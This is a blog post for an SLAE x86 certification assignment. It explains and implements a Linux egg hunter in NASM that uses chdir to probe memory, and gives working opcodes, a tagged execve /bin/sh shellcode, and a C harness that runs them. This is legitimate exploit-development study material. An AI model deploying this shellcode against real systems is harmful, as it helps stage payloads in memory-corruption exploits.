 ```yaml
---
title: "SLAE x86 Exam - Assignment #3"
date: 2021-12-21
toc: true
search: false
classes: wide
categories:
  - blog
tags:
  - slae
  - assembly
  - nasm
  - c
  - egghunter
  - shellcode
  - exam
  - shellcode
---
```


## Disclaimer

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification:

<https://www.pentesteracademy.com/course?id=3>

Student ID: PA-30398

## Foreword

The 3rd assignment requires you to write shellcode for an `Egg Hunter`. Moreover, it should be *configurable for different payloads*.

## Source code

TODO

## Theory

Now comes the question: what is an *Egg Hunter*?

According to a [paper](https://www.exploit-db.com/docs/english/18482-egg-hunter---a-twist-in-buffer-overflow.pdf) from `Exploit-DB`:

> When the "Egg hunter" shellcode is executed, it searches for the unique "tag" that was prefixed with the large payload and starts the execution of the payload.
> [...]
> The Egg hunting technique is used when there are not enough available consecutive memory locations to insert the shellcode. Instead, a unique "tag" is prefixed with shellcode.

## Practice

### Implementation

Given I had zero experience with `egg hunters`, I tried to search for documents detailing how to create this type of shellcode.

I stumbled on this particular document - [Safely Searching Process Virtual Address Space](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) - which shows some techniques you can employ for your own implementation.

Since the `SIGSEGV handler technique` is considered *infeasible*, mainly due to its size, I decided to try using the **system call technique**.

The system call I chose to use is [chdir()](https://man7.org/linux/man-pages/man2/chdir.2.html). Follows its prototype:

```cpp
#include <unistd.h>

int chdir(const char *path);
```

All it does is try to change the **Current Working Directory** (`CWD`) to the path pointed to the argument `path` (which is a pointer).

Since it accepts a pointer, we can use it to test memory addresses. Given the function already implements a `SIGSEGV handler`, it doesn't throw a SIGSEGV error, crashing the program.

Instead, it returns the error **0xfffffff2** (`EFAULT`), indicating that a bad address was passed to the function.

Follows my implementation in Assembly language:

```nasm
; Author: Robert C. Raducioiu (rbct)

global _start

section .text

_start:

    ; clear registers for later use
    xor ebx, ebx
    mul ebx

; This routine checks loops over memory addresses, checking if they are valid
; If the address is valid the shellcode continues to CheckBytes
CheckAddress:

    ; increment memory address by 1 (or use "add ebx, 4" if
    ;   you're sure about the offset)
    inc ebx

    ; call chdir(EBX)
    xor eax, eax
    mov al, 12
    int 0x80

    ; if the return value is 0xfffffff2 (EFAULT), go back to CheckAddress,
    ;   otherwise continue to CheckBytes
    cmp al, 0xf2
    jz CheckAddress

; This routine checks the 4 bytes stored at the address validated by
;   Checkaddress. The goal is to find the Egg Hunter Tag, in this case "rbct"
CheckBytes:

    ; load the 4 bytes from the memory address we're checking
    mov edx, DWORD[ebx]

    ; string "rbcs"
    mov esi, 0x72626373
    
    ; increment esi, thus: "rbct"
    inc esi

    ; check if the 4 bytes are equal to the flag, otherwise
    ;   check the next 4 bytes
    cmp edx, esi
    jnz CheckAddress

    ; if the two DWORDs are equal, then increment the address by 4, and
    ;   execute the shellcode
    add ebx, 4
    call ebx

```

### Testing

I've tested this egg-hunter above with the `exit shellcode`. To do this, I've appended the following Assembly code at the end of the previous file:

```nasm
section .data

    shellcode: db 0x74, 0x63, 0x62, 0x72, 0x31, 0xc0, 0x40, 0xcd, 0x80
```

After running it, I've confirmed it works correctly:

```bash
# assembling
nasm -f elf32 egg_hunter.nasm

# linking
#   also set the stack as executable (for the exit shellcode)
ld -N -o egg_hunter egg_hunter.o

./egg_hunter

```

Instead of throwing a `SIGSEGV` error, it ran the exit shellcode successfully.

Next, I decided to try it with the `execve-stack shellcode`:

```cpp
#include <stdio.h>
#include <string.h>

// tag "rbct" prepended to the shellcode
unsigned char shellcode[] = "\x74\x63\x62\x72\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80";

// egg-hunter shellcode
unsigned char egghunter[] = "\x31\xdb\xf7\xe3\x43\x31\xc0\xb0\x0c\xcd\x80\x3c\xf2\x74\xf5\x8b\x13\xbe\x73\x63\x62\x72\x46\x39\xf2\x75\xe9\x83\xc3\x04\xff\xd3";

main() {
    printf("[+] Shellcode length: %d\n", strlen(shellcode));
    printf("[+] Egg-hunter length: %d\n", strlen(egghunter));

    // run the egg-hunter shellcode
    int (*ret)() = (int(*)())egghunter;
    ret();
}
```

I saved the `stack -execve` shellcode inside the array `shellcode`, while storing the egg-hunter shellcode inside the array `egghunter`.

Inside the `main` function, the programs prints the length of the two shellcodes, and finally executes the egg-hunter shellcode. It does so by getting the pointer of the latter, and turning it into a function.

Follows the a screenshot demostrating the successful execution of the program:

![Egg-hunter found and executed the execve shellcode](/assets/img/slae32/egg_hunter_shellcode_proof.png)
*Egg-hunter found and executed the execve shellcode*
